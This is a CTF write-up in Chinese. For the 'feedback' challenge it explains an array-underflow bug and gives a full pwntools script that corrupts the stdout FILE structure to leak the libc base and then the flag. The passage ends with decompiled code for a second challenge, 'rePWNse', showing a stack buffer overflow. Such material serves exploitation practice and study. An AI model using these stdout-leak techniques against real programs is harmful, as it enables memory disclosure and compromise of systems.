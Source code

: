 ## feedback

保护全开，题目中选项存在数组下溢，通过IDA可以发现可以使用的指针有`stdin  stdout  stderr`以及got表项，以及有一个指向bss段的指针`__dso_handle`

但是由于程序开启了PIE，因此修改`__dso_handle`得到任意地址读写并不可行

而got表项指向位置为代码段，不可写，因此也不可行

此时就转向了三个文件流，使用`stdout leak`来泄露libc地址，且程序已经将flag读入libc中，再次使用`stdout leak`即可泄露出flag

```python
#!/usr/bin/env python3
from pwn import*
context.log_level = 'debug'

io = process('./feedback')
elf = ELF('./feedback')

def DEBUG():
    attach(io, 'b vuln')
    pause()

def feedback(index, content):
    io.recvuntil(b'Which list do you want to write?')
    io.send(str(index).encode())
    io.recvuntil(b'Then you can input your feedback.')
    io.send(content)

feedback(-8, p64(0xfbad1800) + p64(0)*3 + b'\x00' + b'\n')  #stdout泄露libc

io.recvuntil(b'\x00'*8)
libcbase = u64(io.recv(6).ljust(8, b'\x00'))-0x1ec980
log.success('libcbase ===> '+hex(libcbase))

feedback(-8, p64(0xfbad1800) + p64(0)*3 + p64(libcbase+0x1f1700) + p64(libcbase+0x1f1750) + p64(0)*3)   #stdout泄露flag

#DEBUG()
io.interactive()
```

## rePWNse

checksec发现没有Canary和PIE

放进ida看看

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  makebinsh();
  printf("What do you want?");
  read(0, buf, 0x64uLL);
  return 0;
}
```
